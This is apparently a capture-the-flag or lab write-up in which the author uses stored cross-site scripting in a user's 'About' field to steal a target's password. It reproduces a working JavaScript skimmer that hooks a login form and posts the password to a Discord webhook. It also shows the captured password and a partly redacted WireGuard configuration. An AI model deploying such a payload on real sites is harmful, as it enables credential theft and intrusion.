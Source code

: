 # Attack 3

## Background

This third attack was performed to gain access to the user Jonas Dahl's Wireguard credentials.

This attack was possible due to a field in his user info called "About" where it was possible to input custom data. Executable javascripts were also allowed.

It was already known that Jonas Dahl frequently logged in to check his Wireguard credentials by inputting his password in the authentication field on this page.

## Solution

By reading the page source I discovered the *authPassword* element submitted by the form to retrieve the Wireguard credentials. I then added a custom script in the "About" section for Jonas Dahl that retrieved the *authPassword* element in the form and sent it to a Discord webhook I created. The script is shown below:

```js
<script>
    document.addEventListener("DOMContentLoaded", () => {
        document.getElementById("authForm").addEventListener("submit", (event) => {
            event.preventDefault(); // Prevent the form from submitting normally
            const password = document.getElementById("authPassword").value;
            fetch("<WEBHOOK URL>", {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    content: `Password: ${password}`
                })
            })
        });
    });
</script>
```

The result was a success and I gathered his password: `jeg!Har%Mest&LystTil&At%Være-En-Hacker`

This gave me his Wireguard configuration which I used for the next attack:
```ini
[Interface]
Address = 10.13.13.5
PrivateKey = <redacted>
ListenPort = 51820
DNS = 10.13.13.1

[Peer]
PublicKey = Yg6iNtA7+F6AWfnuqCzJPx2cdHKcYOXSvz0LNx4sMjs=
PresharedKey = <redacted>
Endpoint = 64.225.76.73:51820
AllowedIPs = 10.13.13.0/24
```